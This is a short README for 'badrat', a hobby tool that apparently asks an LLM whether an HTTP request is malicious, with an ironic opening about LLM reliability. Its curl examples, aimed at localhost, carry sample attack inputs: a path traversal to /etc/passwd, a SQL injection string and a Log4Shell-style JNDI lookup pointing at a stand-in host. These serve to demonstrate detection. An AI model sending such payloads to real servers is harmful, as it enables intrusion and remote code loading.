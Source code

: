 # badrat

We all know LLMs are 100% reliable and can never be wrong, so let's have it check if an HTTP request is potentially malicious or not.

## Development

Make sure `GROQ_API_KEY` is set, and then:

```sh
# In one shell
make dev-fastapi

# In another shell
make dev-baml
```

Now you can send requests to check how malicious they are:
```sh
curl -s http://localhost:8000/slim?path=../../ | jq
# {
#   "possibly_dangerous": true
# }

curl -s http://localhost:8000/complete?path=../../../etc/passwd&user=admin&password=letmein \
    -H "Authorization: Bearer Robert'); DROP TABLE students; --" \
    -H "Cookie: session_id=1234567890abcdef; expires=Fri, 31-Dec-9999 23:59:59 GMT" \
    -H "X-API-KEY: topsecretkey" \
    -H "Referer: https://example.com/malicious-referrer" \
    -H 'User-Agent: ${jndi:ldap://example.com/malicious-payload}' \
    | jq
# {
#     "possibly_dangerous": true,
#     "dangerous_parameters": [
#     {
#         "parameter_path": "url.query.path",
#         "value": "../../../etc/passwd"
#     },
#     {
#         "parameter_path": "headers.authorization",
#         "value": "Bearer Robert'); DROP TABLE students; --"
#     },
#     {
#         "parameter_path": "headers.user-agent",
#         "value": "${jndi:ldap://example.com/malicious-payload}"
#     }
#     ]
# }
```
